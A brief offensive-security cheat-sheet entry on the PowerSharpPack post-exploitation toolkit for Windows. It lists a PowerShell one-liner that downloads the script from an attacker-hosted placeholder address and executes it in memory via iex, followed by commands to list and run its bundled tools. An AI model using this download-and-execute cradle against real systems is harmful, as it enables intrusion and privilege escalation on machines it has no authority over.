 # powersharppack
#plateform/windows #target/local #cat/RECON #tag/powershell

## load 
```powershell
iex(new-object net.webclient).downloadstring('http://<local_ip>:<port|80>/windows/windows_weaponize/ps/empire/privesc/PowerSharpPack.ps1')
```

## list all programs
```powershell
PowerSharpPack 
```

## run specific programm
```powershell
PowerSharpPack -<name> -Command "<params>"
```